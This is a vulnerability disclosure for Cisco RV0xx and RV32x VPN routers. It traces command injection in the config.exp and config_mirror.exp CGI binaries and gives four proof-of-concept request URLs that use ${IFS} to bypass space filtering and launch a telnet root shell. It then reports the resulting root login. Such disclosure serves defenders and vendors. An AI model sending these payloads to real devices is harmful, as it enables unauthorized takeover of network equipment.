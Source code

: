 # Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

Cisco RV016 Multi-WAN VPN Router

Cisco RV042 Dual WAN VPN Router

Cisco RV042G Dual Gigabit WAN VPN Router

Cisco RV082 Dual WAN VPN Router

Cisco RV320 Dual Gigabit WAN VPN Router

Cisco RV325 Dual Gigabit WAN VPN Router

**Affected firmware version:**

RV0xx Series Routers firmware : 4.2.3.14 (the latest release version)

RV32x Series Routers firmware : 1.5.1.13 (the latest release version)

**Firmware download address:** 

[RV0xx Series Routers firmware](https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14 "https://software.cisco.com/download/home/282414011/type/282465789/release/4.2.3.14")

[RV32x Series Routers firmware](https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13 "https://software.cisco.com/download/home/284005936/type/282465789/release/1.5.1.13")

# Overview

`Cisco RV0xx and RV32x Series VPN Routers` was detected with `command injection vulnerabilities`. These vulnerabilities are caused by lax verification of user input. An authenticated attacker can send crafted requests to the web-based management interface. Successful exploits could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

The vulnerabilities were detected in the **`/usr/local/EasyAccess/www/cgi-bin/config.exp`** binary. In addition, these vulnerabilities also exist in the similar binary file **`/usr/local/EasyAccess/www/cgi-bin/config_mirror.exp`**.

In the `main` function. We can see that when the string `delete_cert&1` is included in our request, it will enter the `exportconfig_deleteCerts` function.

![](./pic/1.png)

In the `exportconfig_deleteCerts` function. When there is number `1` between `&`, everything after the second `&` is concatenated unchecked into `acStack1072` and executed as an argument to the `system` function.

![](./pic/2.png)

Therefore, we can select `1` and write the malicious command after the second `&` and execute it.

Similarly, in the `exportconfig_deleteCerts` function. When there is number `2` between `&`, everything after the second `&` is concatenated unchecked into `acStack1072` and executed as an argument to the `system` function.

![](./pic/6.png)

Therefore, we also can select `2` and write the malicious command after the second `&` and execute it.

# Poc

However, in the actual test, we found that these devices filtered spaces, so we can't inject some commands directly. But it is possible to use `${IFS}` instead of space to bypass the filtering. Therefore, we can do this by injecting the `/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh` command.

## Case 1

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?delete_cert&1&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;` by the `POST` request.

## Case 2

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?delete_cert&1&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;` by the `POST` request.

## Case 3

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config.exp?delete_cert&2&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;.abc` by the `POST` request.

## Case 4

Send arbitrary data to the URL `https://192.168.1.1/cgi-bin/config_mirror.exp?delete_cert&2&;/usr/sbin/telnetd${IFS}-l${IFS}/bin/sh;.abc` by the `POST` request.

# Attack Demo

Before the attack, scan the ports of the router to ensure that port `23` of the `telnet` service is not enabled.

![](./pic/3.png)

Follow the POC above to make the request.

**Case 1 : **

![](./pic/4.png)

**Case 3 : **

![](./pic/7.png)

After the attack is completed, we performed a port scan again and found that the `telnet` service has been successfully started. And then, we successfully logged into the device remotely and got the `root shell` of the device.

![](./pic/5.png)

![](./pic/22.png)